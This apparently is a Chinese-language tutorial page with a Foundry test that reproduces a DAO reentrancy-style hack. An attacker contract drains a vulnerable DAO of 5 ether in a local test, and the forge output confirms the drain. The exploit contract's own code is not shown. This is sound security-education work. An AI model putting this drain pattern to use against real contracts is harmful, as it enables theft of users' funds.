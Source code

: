 **测试文件：DAOHack.t.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/VulnerableDAO.sol";
import "../src/Attacker.sol";

/// @title DAO Hack 攻击复现测试
contract DAOHackTest is Test {
    VulnerableDAO dao;
    Attacker attacker;
    address deployer = address(0xABCD);

    function setUp() public {
        vm.deal(deployer, 10 ether);
        vm.startPrank(deployer);
        dao = new VulnerableDAO();

        // 初始资金注入DAO
        dao.deposit{value: 5 ether}();
        vm.stopPrank();
    }

    function testAttack() public {
        // 给攻击者账户资金
        vm.deal(address(0xBEEF), 10 ether);

        // 以攻击者身份部署攻击合约
        vm.startPrank(address(0xBEEF));
        attacker = new Attacker(address(dao));

        // 发动攻击（msg.value 从 0xBEEF 支付）
        attacker.attack{value: 1 ether}();
        vm.stopPrank();

        emit log_named_uint("DAO Balance After", address(dao).balance);
        emit log_named_uint(
            "Attacker Balance After",
            address(attacker).balance
        );

        assertEq(address(dao).balance, 0, "DAO should be drained");
    }
}
```  

**测试结果：**  

```bash
➜  counter git:(main) ✗ forge test --match-path test/DAOHack.t.sol -vvv
[⠊] Compiling...
[⠒] Compiling 54 files with Solc 0.8.29
[⠘] Solc 0.8.29 finished in 1.54s
Compiler run successful!

Ran 1 test for test/DAOHack.t.sol:DAOHackTest
[PASS] testAttack() (gas: 487330)
Logs:
  DAO Balance After: 0
  Attacker Balance After: 6000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.38ms (486.01µs CPU time)
```